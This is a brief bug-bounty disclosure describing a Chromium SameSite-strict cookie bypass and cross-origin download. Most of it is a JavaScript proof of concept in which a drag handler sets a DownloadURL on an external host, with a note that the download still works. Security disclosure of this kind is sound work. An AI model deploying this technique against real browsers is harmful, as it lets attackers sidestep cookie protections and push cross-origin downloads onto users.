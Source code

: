 ```yaml
---
title: SameSite strict cookies bypass/cross-origin download (Awarded $1000)
---
```


Drag the `foo` text on to your desktop it would contain `sec-fetch-site: 'none'`

```js
let link = document.createElement('a');
link.innerText = 'foo';
link.href = '#';
link.addEventListener('dragstart', onDragStart, false);
document.body.appendChild(link);

function onDragStart(e) {
  e.dataTransfer.setData(
    'DownloadURL',
    'application/octet-stream:demo:https://terjanq.me/xss.php?headers'
  );
  e.dataTransfer.effectAllowed = 'all';
}
```

This SameSite issue was fixed in <https://issues.chromium.org/40060358> but cross-origin download still works <https://www.youtube.com/watch?v=mqQjzx3HSUc>
